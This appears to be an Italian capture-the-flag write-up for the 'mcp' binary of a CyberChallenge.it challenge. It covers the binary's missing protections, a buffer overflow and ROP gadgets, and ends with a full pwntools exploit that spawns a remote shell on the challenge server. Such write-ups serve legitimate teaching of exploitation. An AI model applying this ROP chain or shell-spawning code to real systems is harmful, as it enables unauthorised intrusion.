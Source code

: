 Il binario mcp è un ELF a 64 bit con le seguenti caratteristiche:

- Architettura: amd64-64-little
- Protezioni:
    - ❌ No RELRO
    - ❌ No stack canary
    - ✅ NX enabled
    - ❌ No PIE (base address = 0x400000)

---

Analizzando il binario con ghidra si nota abbastanza facilmente che c’è un buffer overflow.

L’obiettivo è ottenere una shell, sfruttando l’assenza di PIE e canary. Il binario include una funzione simile a execve:

```
0040015b: xor rsi, rsi
0040015e: xor rdx, rdx
00400161: mov eax, 59         ; syscall number per execve
00400166: syscall
```

Quindi se riusciamo a far puntare rdi a /bin/sh, otteniamo shell.

---

Il binario non ha un pop rdi; ret classico, ma troviamo questi:

- 0x400159: pop rsi; ret
- 0x400153: pop r10; add rdi, r10; ret

Per impostare rdi = stringa, possiamo:

1. Inizializzare rdi = 0
2. Usare pop r10; add rdi, r10; ret per sommare l’indirizzo desiderato

---

1. Troviamo un’area scrivibile per iniettare /bin/sh. Usiamo 0x60016c (potevamo utilizzare anche 006001b3), che contiene una stringa iniziale (e viene mostrata all’utente).
2. Creiamo una ROP chain che:
    - chiama read(0, 0x60016c, 8) per scrivere /bin/sh
    - setta rdi = 0x60016c usando add rdi, r10
    - chiama execve("/bin/sh", NULL, NULL)

---

## **Exploit**

```
from pwn import *

HOST = 'mcp.challs.cyberchallenge.it'
PORT = 9218

p = remote(HOST, PORT)

string = 0x0060016c
read_func = 0x00400138
pop_rsi = 0x0000000000400159
pop_r10_add_rdi_r10 = 0x0000000000400153
execve = 0x0040015b

payload = flat(
    b"A" * 128,
    pop_rsi, string,         # rsi = string
    read_func,               # read(0, string, 0x100)
    pop_r10_add_rdi_r10,     # r10 = string; rdi += r10
    string,
    execve                   # execve(rdi=string)
)

p.sendline(payload)
p.sendline(b"/bin/sh\x00")
p.interactive()
```